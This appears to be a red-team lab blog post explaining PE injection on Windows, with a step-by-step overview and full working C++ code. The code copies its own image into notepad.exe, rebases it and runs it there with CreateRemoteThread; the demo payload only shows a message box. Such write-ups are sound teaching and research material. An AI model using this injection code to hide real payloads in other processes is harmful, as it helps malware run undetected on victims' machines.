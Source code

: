 ```yaml
---
layout: post
title: "pe injection executing pes inside remote processes"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /pe-injection-executing-pes-inside-remote-processes/
---
```


---
layout: post
title: "pe injection executing pes inside remote processes"
date: 2024-06-18
categories: code-injection-process-injection
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /pe-injection-executing-pes-inside-remote-processes/
---

---
description: Code Injection
---

# PE Injection: Executing PEs inside Remote Processes

This is a quick lab of a simplified way of injecting an entire portable executabe (PE) into another running process.

{% hint style="warning" %}
Note that in order to inject more complex PEs, additional DLLs in the target process may need to be loaded and Import Address Table fixed and for this, refer to my other lab [Reflective DLL Injection](reflective-dll-injection.md#resolving-import-address-table).
{% endhint %}

## Overview

In this lab, I wrote a simple C++ executable that self-injects its PE into a target process. This executable contains 2 functions:

* `main` - this is the function that performs the self-injection of the PE image into a specified remote/target process, which is going to be `notepad.exe` in this case;
* `InjectionEntryPoint` - this is the function that will get executed by the target process (notepad) once notepads gets injected with our PE.&#x20;
  * This function will pop a `MessageBox` with a name of the module the code is currently running from. If injection is successful, it should spit out a path of notepad.exe.

## Technique Overview

Inside the current process, that's doing the self-injection of its PE:

1. Get the image base address `imageBase`
2. Parse the PE headers and get its `sizeOfImage`
3. Allocate a block of memory (size of PE image retrieved in step 1). Let's call it `localImage`
4. Copy the image of the current process into the newly allocated local memory `localImage`
5. Allocate a new memory block (size of PE image retrieved in step 1) in a remote process - the target process we want to inject the currently running PE into. Let's call it `targetImage`
6. Calculate the delta between memory addresses `targetImage` and `imageBase`, let's call it `deltaImageBase`&#x20;
7. Relocate/rebase the PE that's stored in `localImage` to `targetImage`. For more information about image relocations, see my other lab [T1093: Process Hollowing and Portable Executable Relocations](process-hollowing-and-pe-image-relocations.md)
8. Write the patched PE into the `targetImage` memory location using `WriteProcessMemory`
9. Create remote thread and point it to `InjectionEntryPoint` function inside the PE target process

## Walkthrough

Getting `sizeOfImage` of the current process (local process) that will be injecting itself into a target process and allocating a new memory block in the local process:

![](<../../.gitbook/assets/image (206).png>)

In my case, the new memory block got allocated at address `0x000001813acc0000`. Let's copy the current process's image in there:

![](<../../.gitbook/assets/image (207).png>)

Let's allocate a new block of memory in the target process. In my case it got allocated at `0x000001bfc0c20000`:

![](<../../.gitbook/assets/image (208).png>)

Calculate the delta between `0x000001bfc0c20000` and `0x000001813acc0000` and perform [image base relocations](process-hollowing-and-pe-image-relocations.md#relocation). Once that's done, we can move over our rebased PE from `0x000001813acc0000` to `0x000001bfc0c20000` in the remote process using `WriteProcessMemory`.&#x20;

Below shows that our imaged has now been moved to the remote process:

![](<../../.gitbook/assets/image (209).png>)

Finally, we can create a remote thread and point it to the `InjectionEntryPoint` function inside the remote process:

```cpp
CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD_PTR)InjectionEntryPoint + deltaImageBase), NULL, 0, NULL);
```

![New thread getting created inside notepad.exe](../../.gitbook/assets/newthread.gif)

## Demo

Below shows how we've injected the PE into the notepad (PID 11068) and executed its function `InjectionEntryPoint` which printed out the name of a module the code was running from, proving that the PE injection was succesful:

![](../../.gitbook/assets/pe-injection.gif)

## Code

Below is the commented code that performs the PE injection:

```cpp
#include <stdio.h>
#include <Windows.h>

typedef struct BASE_RELOCATION_ENTRY {
	USHORT Offset : 12;
	USHORT Type : 4;
} BASE_RELOCATION_ENTRY, * PBASE_RELOCATION_ENTRY;

DWORD InjectionEntryPoint()
{
	CHAR moduleName[128] = "";
	GetModuleFileNameA(NULL, moduleName, sizeof(moduleName));
	MessageBoxA(NULL, moduleName, "Obligatory PE Injection", NULL);
	return 0;
}

int main()
{
	// Get current image's base address
	PVOID imageBase = GetModuleHandle(NULL);
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)imageBase;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)imageBase + dosHeader->e_lfanew);

	// Allocate a new memory block and copy the current PE image to this new memory block
	PVOID localImage = VirtualAlloc(NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_READWRITE);
	memcpy(localImage, imageBase, ntHeader->OptionalHeader.SizeOfImage);

	// Open the target process - this is process we will be injecting this PE into
	HANDLE targetProcess = OpenProcess(MAXIMUM_ALLOWED, FALSE, 9304);
	
	// Allote a new memory block in the target process. This is where we will be injecting this PE
	PVOID targetImage = VirtualAllocEx(targetProcess, NULL, ntHeader->OptionalHeader.SizeOfImage, MEM_COMMIT, PAGE_EXECUTE_READWRITE);

	// Calculate delta between addresses of where the image will be located in the target process and where it's located currently
	DWORD_PTR deltaImageBase = (DWORD_PTR)targetImage - (DWORD_PTR)imageBase;

	// Relocate localImage, to ensure that it will have correct addresses once its in the target process
	PIMAGE_BASE_RELOCATION relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)localImage + ntHeader->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_BASERELOC].VirtualAddress);
	DWORD relocationEntriesCount = 0;
	PDWORD_PTR patchedAddress;
	PBASE_RELOCATION_ENTRY relocationRVA = NULL;

	while (relocationTable->SizeOfBlock > 0)
	{
		relocationEntriesCount = (relocationTable->SizeOfBlock - sizeof(IMAGE_BASE_RELOCATION)) / sizeof(USHORT);
		relocationRVA = (PBASE_RELOCATION_ENTRY)(relocationTable + 1);

		for (short i = 0; i < relocationEntriesCount; i++)
		{
			if (relocationRVA[i].Offset)
			{
				patchedAddress = (PDWORD_PTR)((DWORD_PTR)localImage + relocationTable->VirtualAddress + relocationRVA[i].Offset);
				*patchedAddress += deltaImageBase;
			}
		}
		relocationTable = (PIMAGE_BASE_RELOCATION)((DWORD_PTR)relocationTable + relocationTable->SizeOfBlock);
	}

	// Write the relocated localImage into the target process
	WriteProcessMemory(targetProcess, targetImage, localImage, ntHeader->OptionalHeader.SizeOfImage, NULL);

	// Start the injected PE inside the target process
	CreateRemoteThread(targetProcess, NULL, 0, (LPTHREAD_START_ROUTINE)((DWORD_PTR)InjectionEntryPoint + deltaImageBase), NULL, 0, NULL);

	return 0;
}
```

## References

{% embed url="https://www.andreafortuna.org/2018/09/24/some-thoughts-about-pe-injection/" %}

{% embed url="https://blog.sevagas.com/PE-injection-explained" %}

{% embed url="https://www.malwaretech.com/2013/11/portable-executable-injection-for.html" %}
@spotheplanet
